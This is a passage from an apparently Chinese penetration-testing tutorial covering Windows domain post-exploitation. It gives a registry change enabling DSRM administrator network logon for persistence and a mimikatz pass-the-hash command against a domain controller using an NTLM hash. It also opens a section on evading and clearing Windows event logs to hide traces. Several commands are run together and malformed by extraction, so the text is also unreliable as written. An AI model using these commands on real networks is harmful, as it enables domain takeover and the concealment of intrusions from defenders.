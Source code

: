     
    
    New-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2-PropertyType DWORD

如果存在但是不为2设置为2：

    
    
    Set-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114542.png)

## 4.3 PTH域控

    
    
    sekurlsa::pth /domain:DC /user:Administrator/ntlm:852a844adfce18f66009b4f14e0a98de/run:powershell.exe

![]()

# 0x05 规避Windows 事件日志记录

在做完一些渗透测试清理痕迹是很有必要的一个环节，包括在一些渗透还未结束也要清理掉一些操作日志。在情报收集反溯源等等大多都是采用windows事件日志中。

## 5.1 查看windows日志

### 5.1.1 事件管理器

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114543.png)

### 5.1.2 powershell

  

管理员权限运行查看安全类别的日志：

    
    
    Get-WinEvent-FilterHashtable@{logname="security";}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114544.png)

## 5.2 windows日志清除方法

### 5.2.1 wevtutil.exe

 **统计日志列表数目信息等：**

    
    
     wevtutil.exe gli Applicationwevtutil.exe gli Security

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114545.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114546.png)

